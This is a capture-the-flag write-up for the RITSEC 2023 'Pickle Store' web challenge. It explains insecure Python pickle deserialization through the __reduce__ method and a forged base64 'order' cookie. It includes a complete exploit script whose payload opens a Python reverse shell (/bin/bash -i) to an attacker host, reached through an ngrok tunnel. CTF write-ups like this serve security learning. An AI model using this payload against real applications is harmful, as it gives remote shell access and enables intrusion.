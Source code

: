 # Pickle Store (RITSEC 2023 - Web)

**Challenge description**: "New pickles just dropped! Check out the store."<br>
**Challenge date**: ven, 31 Mar. 2023, 16:00 UTC — dom, 02 Apr. 2023, 16:00 UTC<br>
**Challenge points**: 223<br>

## Involved Vulnerability

The server of this challenge uses the Python module called *pickle*, which is used for serializing (“*Pickling*”) and deserializing (“*Unpickling*”) Python objects' structure (see [[1]](#1)). This module is vulnerable to RCE during unpickling of class instances (objects). Classes can be defined to contain methods that can be called during the unpickling process to specify how they should be unpickled. One of these methods is *\_\_reduce()\_\_*.<br>
As evidenced by [[1]](#1):<br>

>The \_\_reduce\_\_() method takes no argument and shall return either a string or preferably a tuple (the returned object is often referred to as the “reduce value”).<br>
If a string is returned, the string should be interpreted as the name of a global variable. \[...\]<br>
When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:<br> - A **callable object** that will be called to create the initial version of the object.<br> - A **tuple of arguments** for the callable object. An empty tuple must be given if the callable does not accept any argument.<br> - \[...\]
A Python function is a callable object. So, if the attacker defines a class like the one below, pickles its instance and send the pickled object to the server, this will execute the specified function with the parameters given in the tuple.
```python
class RCE:
    def __reduce__(self):
        return (function_name, (parameter_1,parameter_2,)) #if there is only 1 parameter: (parameter_1,)
```
## Exploring the challenge
This is the first thing we see as soon as we access the challenge:

![Pickle Store](https://user-images.githubusercontent.com/66698256/229376712-d235bbbb-0d59-4c3d-a9e0-ab0829107127.png)

If we click on one of the buttons (the first one, for example), we will be redirected to <code>/order</code>:

![Order executed](https://user-images.githubusercontent.com/66698256/229377403-7b7e14fd-62dd-46fd-9b15-5188b734f11d.png)

Clicking on the "New Order" button we will be redirected to the initial page. By inspecting the four buttons something interesting can be noticed:

![Cookie setting](https://user-images.githubusercontent.com/66698256/229377514-b38166dd-aa58-412f-866b-9b865f722abc.png)

When a button is clicked, a cookie called "*order*" is set to a base64 string containing a pickled object and sent to the server through a GET request to <code>/order</code>. Here the string is presumably read from the cookie, decoded, the pickled object unpickled and ultimately printed into the returned page (if a string). Thanks to this cookie the server knows which article (or pickle) the user has chosen to buy.<br>
If we take the cookie value defined in the event handler of the "Sweet Pickle" button, decode it and unpickle it, we'll understand better how all this works.

![Unpickling](https://user-images.githubusercontent.com/66698256/229381958-d871524b-304f-4e3b-932b-790bd8eba284.png)

As expected, the obtained object ("*sweetpickle*") is a string and it's the same visualized in the <code>/order</code> page.<br>
Thus we can pickle any object (not only strings), encode it in base64 and set the "*order*" cookie accordingly. Once recieved by the server at the <code>/order</code> endpoint, the string will be decoded, the pickled object unpickled and, if a string, printed on the returned page.

![Pickling](https://user-images.githubusercontent.com/66698256/229382473-c062a8e3-a07e-4b39-8ee6-72cf397041aa.png)

![Set forged cookie](https://user-images.githubusercontent.com/66698256/229382220-2c6b25ef-d00e-4681-8267-fa8c751e4892.png)

![AAAA](https://user-images.githubusercontent.com/66698256/229378762-be51dd0c-33b0-40c2-abcf-c1b41e340fde.png)


## Attack

The behaviour to be exploited is the insecure unpickling (or insecure deserialization) of particular pickled objects. What the application does with the output of the deserialization is of no interest to the attacker. A way to exploit the involved vulnerability is to spawn a reverse shell on the server through Python code. The *\_\_reduce\_\_()* method should be defined like this:

```python
host="IP_Address"   #or "Domain_Name"
port="PORT"
class RCE:
    def __reduce__(self):
        #code here will be executed only during pickling, not unpickling (only the return statement will be coded in pickle format).
        return (exec, ('from os import dup2;from subprocess import run; import socket; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("'+host+'",'+port+')); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2); run(["/bin/bash","-i"]);',))
```
Variables <code>host</code> and <code>port</code> contain, respectively, the IP address (or domain name) and the port on which the attacker will listen for the spawned reverse shell. 
The complete exploit is the following:
```python
import pickle
import base64
import requests
import socket
host="IP_Address"   #or "Domain_Name"
port="PORT"
class RCE:
    def __reduce__(self):
        #code here will be executed only during pickling, not unpickling (only the return statement will be coded in the pickled object).
        return (exec, ('from os import dup2;from subprocess import run; import socket; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("'+host+'",'+port+')); dup2(s.fileno(),0); dup2(s.fileno(),1); dup2(s.fileno(),2); run(["/bin/bash","-i"]);',))
pickled_bytes=pickle.dumps(RCE())    #Object instance ---> Pickle format (bytes)
pickled_base64_bytes = base64.b64encode(pickled_bytes)    #Pickle format (bytes) ---> Base64 encoding (bytes)
pickled_base64_string = pickled_base64_bytes.decode('ascii')   #Base64 encoding (bytes) ---> Base64 encoding (string)
response=requests.get("https://pickles-web.challenges.ctf.ritsec.club/order",cookies={"order":pickled_base64_string})
print(response.text)
```
In order to execute a reverse shell a service like *ngrok* can be used. In this example we will listen on port <code>9001</code> of our own machine, but, for the server, we will listen on port <code>19945</code> at <code>4.tcp.eu.ngrok.io</code> (*ngrok* will redirect traffic on its port to ours). So:

![Listening_Reverse_Shell](https://user-images.githubusercontent.com/66698256/229460262-ab932d54-cd3b-4129-8e6a-0414c33c22e6.png)

Then we'll execute the exploit:

![Exploit](https://user-images.githubusercontent.com/66698256/229460307-60e25c2c-305a-493c-a2e4-e2c2553d8721.png)

![Spawned_Reverse_Shell](https://user-images.githubusercontent.com/66698256/229456613-76d66a6c-1468-4e23-8626-c1c79855f29c.png)

Reverse shell spawned! The flag is inside <code>/flag</code>.

![Flag](https://user-images.githubusercontent.com/66698256/229458939-a3ca621a-0721-4edf-8ae2-a1709a4c9edd.png)

Flag is <code>RS{TH3_L345T_53CUR3_P1CKL3}</code>.




## References
<a id="1">[1]</a> 
https://docs.python.org/3/library/pickle.html
